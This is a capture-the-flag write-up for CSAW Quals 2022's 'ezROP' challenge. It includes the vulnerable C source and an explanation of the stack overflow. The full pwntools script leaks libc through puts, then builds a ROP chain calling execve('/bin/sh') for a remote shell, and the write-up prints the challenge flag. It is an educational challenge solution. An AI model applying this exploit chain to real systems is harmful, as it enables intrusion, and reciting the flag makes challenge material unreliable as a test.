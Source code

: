 # CSAW Quals 2022 - ezROP Writeup

# Challenge Description
```
This is a simple buffer overflow challenge, but I wrote it in a reversed way :)

$ nc pwn.chal.csaw.io 5002

Category: pwn
```
[Challenge Executable File](https://ctf.csaw.io/files/5f324cea90cc85f52ba2b38c8e7acec3/share.zip?token=eyJ1c2VyX2lkIjo3NzIsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE4MX0.YyS7kw.uSAnR-8yZSm6O_d2SaEwoiLIr14)

# TL;DR
This is a classing **Return Oriented Programming** (ROP) challenge especially suited for first-timers in stack buffer overflow exploitation using ROP techniques. The challenge had a buffer overflow that allowed me to take control of the return address. Then I leaked address of `puts` and using that I got the coveted *libc base address*. In the next stage, all I had to do was hijack the program flow to execute `execve("bin/sh", 0, 0)` and voila! I got the shell. After that it was just a matter of reading the flag from the shell.

[The final exploit code in python](#final-exploit).

# Resources for understanding the solution
To understand how the solution works, one needs to have a solid understanding of ROP basics. To get a gentle introduction on basics of ROP, check out these two resources: [What is the GOT - CTF 101](https://ctf101.org/binary-exploitation/what-is-the-got/) & [What is ROP - CTF 101](https://ctf101.org/binary-exploitation/return-oriented-programming/). Next, when you've got a bit of hold on ROP, its time to know how one can exploit a buffer overflow vulnerability using that. Can check out [ROP Chaining: Return Oriented Programming - Red Teaming Experiments (ired.team)](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming) to get a feel of this powerful exploitation technique. 

If you've gone through all these resources that I mentioned, then its time to make ur life a bit better by introducing *pwntools* using which you can easily build ROP chains and execute a successful attack without having to find and calculate all the nifty details. You'll find the *pwntools* documentation involving ROP in here: [pwntools-tutorial/rop.md (github.com)](https://github.com/Gallopsled/pwntools-tutorial/blob/master/rop.md). I'll use *pwntools* to mount the attack but I strongly recommend checking out the previous resources I mentioned to know exactly what's happening behind the scene cz *pwntools* abstracts away most of the raw and low-level technical details.

# Solution
For this challenge, we're given both the source code and the binary file. Having source code makes life a lot easier. The source code is following:

```C
#include <stdio.h>
#include <ctype.h>

int init(){
    fclose(stderr);
    setvbuf(stdin,  0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int check(char *s){
    char *ptr = s;
    
    while(*ptr!=0)
    {
        if(*ptr=='\n')
        {
            *ptr = 0; break;
        }
        if(isalpha(*ptr) || *ptr==' ')
            ptr++;
        else
        {
            puts("Hey Hacker! Welcome to CSAW'22!");
            exit(1);
        }
    }
    printf("Nice to meet you, %s! Welcome to CSAW'22!\n",s);
    return 1;
}

char * str1 = "My friend, what's your name?";
void readn(char * buf, size_t len){
    if(read(0,buf,len)<=0)
        exit(1);
    return ;
}

void vul(void *buf){
    size_t rdi = 0x00000000004015a3;
    size_t rsi = rdi-2;
    size_t rop[0x100]; 
    size_t ct = 0 ; 
    memset(rop,0,sizeof(rop));

    rop[ct++] = buf+0x70; // real ret address
    rop[ct++] = rdi;
    rop[ct++] = str1;
    rop[ct++] = puts;

    rop[ct++] = rsi;
    rop[ct++] = 0x100; // rsi
    rop[ct++] = 0x999; // Pad

    rop[ct++] = rdi; 
    rop[ct++] = buf; // rdi

    rop[ct++] = readn;

    rop[ct++] = rdi;
    rop[ct++] = buf;
    rop[ct++] = check;

    rop[ct++] = 0x40152d;

    rop[0x104] = rop;
    return ;
}

int main(){
    char buf[100];
    init();
    vul(buf);
}
```
From the code, we can observe that the vulnerability is in the `vuln()` function (line no. 40) where it takes a buffer of size 100 as input but in the `readn()` function (called by`vuln()`) the length of the input to read is specified as 0x100 (256 in decimal). And thats our point of overflow. 

Next, we find the offset of return pointer using `gef`'s pattern search mechanism.

![gef-pattern-create](images/gef-pattern-create.png)
![sigsegv](images/sigsegv.png)
![gef-pattern-search](images/gef-pattern-search.png)

So the return pointer is just after offset 120 i.e. we need to feed 120 bytes of junk data before our actual payload. One thing we need be careful about here is that our payload will have addresses to different locations within libc which are not alphabets. In lines 24-26 (the `else` block), the code will exit if the input contains any non-alphabet character other than spaces. But we don't want the program to exit. So what do we do? We make use of the `if` condition (lines 16-18) by adding a newline after the junk input so that the `check()` function returns to the callee function.

Also while interacting with the challenge binary, care should be taken to properly read the responses before sending the payloads. Finally, we build the ROP chain, get libc leaks in first iteration and get the `execve()` call in second iteration which popped a shell.

## Final Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'
  
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
e = ELF("./ezROP")
rop = ROP(e)

offset = 119
padding = b'A' * offset + b'\x0A' # adding a newline so that the check() function doesn't exit

p = remote('pwn.chal.csaw.io', '5002')

# p = process(e.path)
# gdbscript = '''
# set follow-fork-mode child
# break *0x401533
# continue
# '''
# p = gdb.debug(e.path, gdbscript=gdbscript)

# get program response

print(p.recvuntil('?'))
p.recvline()
  
def get_address(func_name):
	FUNC_GOT = e.got[func_name]
	  
	# build rop chain to leak libc address
	rop.raw(padding)
	rop.call('puts', [FUNC_GOT])
	rop.call('main')
	
	# check rop chain
	# print(rop.dump())  
	
	# send rop chain
	p.sendline(rop.chain())  
	
	# get program response
	print(p.recvline())  
	
	# now comes the leak
	# remove trailing newline
	leak = p.recvline().rstrip(b'\n')
	leak = u64(leak.ljust(8, b'\x00'))
	
	log.info(f"Leaked libc address, {func_name}: {hex(leak)}")
	  
	# set libc base
	libc.address = leak - libc.symbols[func_name]
	
	log.info(f"libc base: {hex(libc.address)}")  


get_address("puts")

# get program response
print(p.recvline())

# build rop chain to call /bin/sh
rop2 = ROP([e, libc])  
BINSH = next(libc.search(b"/bin/sh\x00"))
rop2.raw(padding)
rop2.execve(BINSH, 0, 0)
rop2.exit() 

# send second rop chain to get the shell
p.sendline(rop2.chain())
print(p.recvline())

# the shell should be live now!
p.interactive()
```


## Flag
`flag{53bb4218b851affb894fad151652dc333a024990454a0ee32921509a33ebbeb4}`
